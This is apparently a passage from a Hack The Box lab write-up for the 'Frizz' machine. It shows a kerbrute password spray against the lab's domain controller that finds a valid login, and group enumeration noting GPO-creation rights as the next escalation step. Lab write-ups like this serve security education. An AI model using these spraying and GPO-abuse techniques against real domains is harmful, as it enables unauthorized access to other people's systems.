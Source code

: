 Spray the users.

```bash
> kerbrute passwordspray --dc frizzdc.frizz.htb -d frizz.htb users.txt '<PASS>'

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/24/25 - Ronnie Flathers @ropnop

2025/03/24 03:26:43 >  Using KDC(s):
2025/03/24 03:26:43 >   frizzdc.frizz.htb:88

2025/03/24 03:26:43 >  [+] VALID LOGIN:  M.SchoolBus@frizz.htb:<PASS>
```

The password is valid for `M.SchoolBus` user. From the previous information about `Remote Management Users` group membership, this user is a member of that group. Get a ticket and log in using SSH with Kerberos authentication.

# Shell as M.SchoolBus

## Enumeration

This user belongs to the `Group Policy Creator Owners` group, which could create GPOs and modify them.

```powershell
PS C:\Users\M.SchoolBus> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes

============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group

BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group

BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group

BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group

frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group
```